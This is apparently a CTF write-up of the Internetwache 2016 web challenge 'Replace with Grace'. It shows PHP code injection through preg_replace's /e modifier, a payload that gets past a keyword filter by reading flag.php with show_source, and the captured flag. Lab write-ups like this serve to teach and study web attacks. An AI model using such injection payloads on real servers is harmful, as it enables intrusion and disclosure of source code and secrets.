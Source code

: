 ```yaml
---
title: 'Internetwache CTF 2016: Replace with Grace (web 60)'
date: 2016-02-22 00:00:00 Z
categories:
- writeup
tags:
- cat/web
- lang/php
layout: post
author: sigttou
---
```


* **Category:** web
* **Points:** 60
* **Description:** 

> Regular expressions are pretty useful. Especially when you need to search and replace complex terms.

## Write-up

The given website is used to "Search & Replace" with regular expressions.
From other challenges we know, that we can execute php code using:

```php
/(.*)/e
```

(Check out [this Stackoverflow answer](http://stackoverflow.com/a/16986549/1518225) for details.)

The problem was, that the website filtered some inputs like:

* file
* open


It worked with:

```
var_dump(show_source('flag.php'));
```

A simple, but nice challenge.

```
IW{R3Pl4c3_N0t_S4F3}
```
